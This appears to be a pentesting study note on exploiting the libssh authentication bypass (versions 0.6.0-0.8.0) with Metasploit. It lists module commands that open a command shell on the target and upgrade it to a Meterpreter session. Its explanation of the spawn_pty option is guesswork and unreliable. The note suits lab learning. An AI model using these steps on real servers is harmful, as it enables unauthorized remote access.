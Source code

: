 ### Vulnerability in SSH
* SSH runs on port 22
* **libssh** is a multi-platform C library implementing the SSHv2 protocol on the cleint and server side.
* libssh V0.6.0-0.8.0 is vulnerable to authentication bypass vulnerability in the libssh server code that can be xploited to execute commands on the target server.

* PRACTICAL
* Same steps until db_nmap
* `search libssh_auth_bypass`
* `use auxiliary/scanner/ssh/libssh_auth_bypass`
* `set spawn_pty true` --> Spawn a PTY.
  * The spawn_pty option likely creates a PTY (pseudo-terminal) to bypass certain authentication mechanisms in SSH servers that rely on specific terminal-related behaviors.
  * This option might aid in bypassing certain restrictions or conditions imposed during authentication, allowing for more effective scanning or exploitation within the context of the module's purpose.
 
* `run` --> Will give a command shell
* `sessions [id]`
* ***
* `use post/multi/manage/shell_to_meterpreter`
* set lhost and session
* `run` ->Meterpreter session
